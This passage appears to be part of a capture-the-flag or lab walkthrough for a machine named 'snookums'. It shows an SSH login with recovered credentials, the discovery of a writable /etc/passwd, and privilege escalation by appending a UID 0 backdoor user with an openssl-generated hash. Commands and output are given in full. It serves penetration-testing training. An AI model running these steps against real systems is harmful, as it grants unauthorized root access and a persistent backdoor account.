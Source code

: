 The resulting cleartext passwords appear legitimate.

### SSH and Local Enumeration

Let’s attempt to SSH into the target with the recovered credentials.

```
kali@kali:~$ ssh michael@192.168.120.135
michael@192.168.120.135's password: 
[michael@snookums ~]$ id
uid=1000(michael) gid=1000(michael) groups=1000(michael) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[michael@snookums ~]$
```

We successfully authenticated as michael, and it appears that this user can write to **/etc/passwd**:

```
[michael@snookums ~]$ ls -lah /etc/passwd
-rw-r--r--. 1 michael root 1.2K Jun  9 10:22 /etc/passwd
[michael@snookums ~]$
```

With this level of access, we should be able to add an arbitrary user to the `root` group.

### Adding New User

Let’s generate the password hash for a user named `GitRekt` with a password of `pwn1337`:

```
kali@kali:~$ openssl passwd -1 -salt GitRekt pwn1337
$1$GitRekt$FzDARwVLdGr6swDMInZda1
kali@kali:~$
```

Next, we’ll create a proper **/etc/passwd** entry, creating a user which is a member of the root group:

```
[michael@snookums ~]$ echo 'GitRekt:$1$GitRekt$FzDARwVLdGr6swDMInZda1:0:0::/root:/bin/bash' >> /etc/passwd
[michael@snookums ~]$ cat /etc/passwd | grep GitRekt
GitRekt:$1$GitRekt$FzDARwVLdGr6swDMInZda1:0:0::/root:/bin/bash
[michael@snookums ~]$
```

We can now SSH in as `GitRekt` to confirm root privilege on the system:

```
kali@kali:~$ ssh GitRekt@192.168.120.135
GitRekt@192.168.120.135's password: 
[root@snookums ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@snookums ~]#
```